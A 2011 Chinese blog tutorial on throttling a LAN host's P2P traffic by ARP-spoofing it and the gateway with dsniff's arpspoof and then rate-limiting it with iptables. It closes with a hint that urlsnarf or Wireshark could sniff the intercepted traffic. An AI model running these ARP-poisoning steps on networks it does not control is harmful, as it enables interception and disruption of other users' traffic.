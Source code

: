 ```yaml
---
comments: true
date: 2011-11-07 19:16:51
layout: post
slug: linux-limit-p2p-ing-host
title: linux下限制局域网内部使用p2p软件的主机
wordpress_id: 1865
categories:
- 服务器
---
```


windows下有p2p终结者，linux下咱有dsniff，介绍：[here](http://monkey.org/~dugsong/dsniff/)，其的用途之一就是做arp欺骗，具体命令是arpspoof.




作用：



    
    arpspoof将局域网内的目标主机或者是所有主机的发送数据包通过ARP欺骗来重指向。<br></br>在使用交换机的局域网环境下是一个非常有效的方法来嗅探数据：)




注意：kernel的ip转发必须要提前打开




使用：



    
    arpspoof [-i interface] [-t target] host



    
    -i 用来指示要使用的网卡接口，一般是eth0,



    
    -t 用来指示要欺骗的目标主机，如果不表明则默认为局域网内部的所有主机



    
    host 你要截取数据包的主机，通常是网关




具体使用：




环境archlinux ,要限制的ip为192.168.0.29，本机ip为192.168.0.24,实验室网管为192.168.0.1




1 安装



    
    sudo pacman -S dsniff




2 开启内核转发和欺骗



    
    #echo 1 > /proc/sys/net/ipv4/ip_forward




#欺骗192.168.0.29，告诉这台机器网关192.168.0.1的MAC地址是自己(192.168.0.24)。



    
    $sudo arpspoof -i eth0 -t 192.168.0.29 192.168.0.1




#欺骗192.168.0.1，告诉网关192.168.0.29的MAC地址是自己(192.168.0.24)



    
    $sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.29




_192.168.0.29以为192.168.0.24就是192.168.0.1，192.168.0.1以为192.168.0.24就是192.168.0.29_




3 利用iptables开始限速




#192.168.0.29被限制每秒只能传输3个数据包了



    
    $sudo iptables -A FORWARD -s 192.168.0.29  -m limit --limit 3/s -j ACCEPT           <br></br>$sudo iptables -A FORWARD -d 192.168.0.29 -m limit --limit 3/s -j ACCEPT                  <br></br>$sudo iptables -A FORWARD -s 192.168.0.29  -j DROP                                                 <br></br>$sudo iptables -A FORWARD -d 192.168.0.29  -j DROP   




4 当然，如果你想干坏事的话可以用 urlsnarf 或者wireshark之类的。。。。恩







参考资料：




[http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html](http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html)




[http://www.yuanma.org/data/2006/0914/article_1536.htm](http://www.yuanma.org/data/2006/0914/article_1536.htm)
